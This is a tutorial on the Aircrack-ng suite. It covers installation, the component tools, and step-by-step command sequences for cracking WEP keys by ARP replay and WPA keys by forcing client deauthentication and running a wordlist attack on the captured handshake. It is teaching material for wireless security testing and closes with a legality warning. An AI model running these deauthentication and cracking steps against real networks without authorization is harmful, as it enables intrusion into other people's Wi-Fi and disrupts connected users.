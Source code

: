 .. title:: A Comprehensive Guide to Aircrack-ng

Introduction
============

Aircrack-ng is a popular suite of tools used for wireless network auditing and penetration testing. It's a powerful utility for analyzing and securing Wi-Fi networks. In this guide, we will delve into Aircrack-ng, covering its features, installation, basic usage, and examples.

Installation
============

To use Aircrack-ng, you need to install it on your system. The installation process may vary depending on your operating system. Here are some common installation commands:

- On Debian/Ubuntu-based systems:

  .. code-block:: bash

      sudo apt-get install aircrack-ng

- On CentOS/RHEL-based systems:

  .. code-block:: bash

      sudo yum install aircrack-ng

Basic Usage
===========

Aircrack-ng offers a wide range of tools and functionalities for Wi-Fi network assessment and security. Here are some of the essential components and basic usage:

1. **Aircrack-ng**: Used for cracking WEP and WPA-PSK keys.

   .. code-block:: bash

      aircrack-ng <capture-file>

2. **Airmon-ng**: Used for enabling and disabling monitor mode on network interfaces.

   .. code-block:: bash

      airmon-ng start <interface>

3. **Airodump-ng**: Used for capturing packets from wireless networks.

   .. code-block:: bash

      airodump-ng <interface>

4. **Aireplay-ng**: Used for packet injection and ARP request replay attacks.

   .. code-block:: bash

      aireplay-ng -0 1 -a <BSSID> -c <CLIENT> <interface>

5. **Airbase-ng**: Used for creating rogue access points.

   .. code-block:: bash

      airbase-ng -e <ESSID> -c <CHANNEL> <interface>

Examples
========

Example 1: Cracking WEP Key
---------------------------

1. Start by putting your wireless interface into monitor mode:

   .. code-block:: bash

      airmon-ng start <interface>

2. Capture data packets from the target network:

   .. code-block:: bash

      airodump-ng -w capture -c <channel> --bssid <BSSID> <interface>

3. Inject traffic into the network:

   .. code-block:: bash

      aireplay-ng -3 -b <BSSID> -h <your-adapter> <interface>

4. Crack the WEP key:

   .. code-block:: bash

      aircrack-ng -b <BSSID> capture*.cap

Example 2: Cracking WPA Key
---------------------------

1. Capture the WPA handshake:

   .. code-block:: bash

      airodump-ng -w capture -c <channel> --bssid <BSSID> <interface>

2. Deauthenticate a connected client to capture the handshake:

   .. code-block:: bash

      aireplay-ng -0 1 -a <BSSID> -c <CLIENT> <interface>

3. Crack the WPA key:

   .. code-block:: bash

      aircrack-ng -w wordlist.txt capture*.cap

Conclusion
==========

Aircrack-ng is a versatile toolset for Wi-Fi security analysis and testing. It allows you to assess the vulnerabilities of wireless networks and enhance their security. However, please note that using Aircrack-ng for unauthorized access to networks is illegal and unethical. Always use these tools responsibly and with the appropriate permissions.

This guide has provided an overview of Aircrack-ng, including installation, basic usage, and practical examples. Continue learning and exploring its capabilities to improve your wireless network security skills.
